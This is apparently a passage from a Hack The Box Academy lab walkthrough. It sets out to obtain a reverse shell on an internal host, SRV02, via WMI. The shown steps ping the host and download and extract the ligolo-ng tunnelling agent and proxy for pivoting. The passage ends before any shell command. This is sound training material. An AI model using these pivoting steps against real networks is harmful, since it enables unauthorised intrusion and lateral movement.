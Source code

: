 ### "Use WMI to get a reverse shell on SRV02 and read the flag located at C:\\Users\\helen\\Documents\\flag.txt"

Students will reuse the previously established RDP session, subsequently they will proceed to ping `SRV02` to uncover the IP address assigned to that machine:

Code: powershell

```powershell
ping SRV02
```

```
PS C:\Users\helen> ping SRV02

Pinging SRV02.inlanefreight.local [172.20.0.52] with 32 bytes of data:
Reply from 172.20.0.52: bytes=32 time=1ms TTL=128
Reply from 172.20.0.52: bytes=32 time<1ms TTL=128
Reply from 172.20.0.52: bytes=32 time<1ms TTL=128
Reply from 172.20.0.52: bytes=32 time<1ms TTL=128

Ping statistics for 172.20.0.52:
    Packets: Sent = 4, Received = 4, Lost = 0 (0% loss),
Approximate round trip times in milli-seconds:
    Minimum = 0ms, Maximum = 1ms, Average = 0ms
```

Students will come to know that `SRV02` is part of an internal network, meaning that they will have to establish dynamic port-forwarding using a [ligolo-ng](https://github.com/nicocha30/ligolo-ng). On their workstations, students will proceed to download the respective versions for Linux and Windows from the [releases](https://github.com/nicocha30/ligolo-ng/releases/tag/v0.6.2):

Code: shell

```shell
wget -q https://github.com/nicocha30/ligolo-ng/releases/download/v0.6.2/ligolo-ng_agent_0.6.2_windows_amd64.zip; wget -q https://github.com/nicocha30/ligolo-ng/releases/download/v0.6.2/ligolo-ng_proxy_0.6.2_linux_amd64.tar.gz
```

```
┌─[eu-academy-5]─[10.10.14.221]─[htb-ac-8414@htb-d4d4brjin5]─[~]
└──╼ [★]$ wget -q https://github.com/nicocha30/ligolo-ng/releases/download/v0.6.2/ligolo-ng_agent_0.6.2_windows_amd64.zip; wget -q https://github.com/nicocha30/ligolo-ng/releases/download/v0.6.2/ligolo-ng_proxy_0.6.2_linux_amd64.tar.gz
```

Once downloaded, students will proceed to extract the archives using `unzip` and `tar`:

Code: shell

```shell
unzip ligolo-ng_agent_0.6.2_windows_amd64.zip
tar xvf ligolo-ng_proxy_0.6.2_linux_amd64.tar.gz
chmod +x proxy
```

```
┌─[eu-academy-5]─[10.10.14.221]─[htb-ac-8414@htb-d4d4brjin5]─[~]
└──╼ [★]$ unzip ligolo-ng_agent_0.6.2_windows_amd64.zip

Archive:  ligolo-ng_agent_0.6.2_windows_amd64.zip
  inflating: LICENSE                 
  inflating: README.md               
  inflating: agent.exe 

┌─[eu-academy-5]─[10.10.14.221]─[htb-ac-8414@htb-d4d4brjin5]─[~]
└──╼ [★]$ tar xvf ligolo-ng_proxy_0.6.2_linux_amd64.tar.gz 

LICENSE
```